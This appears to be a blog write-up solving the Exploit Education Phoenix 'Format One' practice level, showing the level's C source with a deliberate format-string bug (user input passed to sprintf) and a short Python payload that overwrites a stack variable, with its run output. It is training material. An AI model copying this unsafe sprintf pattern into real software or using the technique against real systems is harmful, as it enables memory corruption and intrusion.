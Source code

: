 ```yaml
---
title: " Exploit Education | Phoenix | Format One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

This level is the same as the last one except that we need set **changeme** to a specific value **0x45764f6c** instead of a random value.

# Solution:

```python
#solve.py

from pwn import *

buff = ""
buff += '%32x'
buff += p64(0x45764f6c)

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

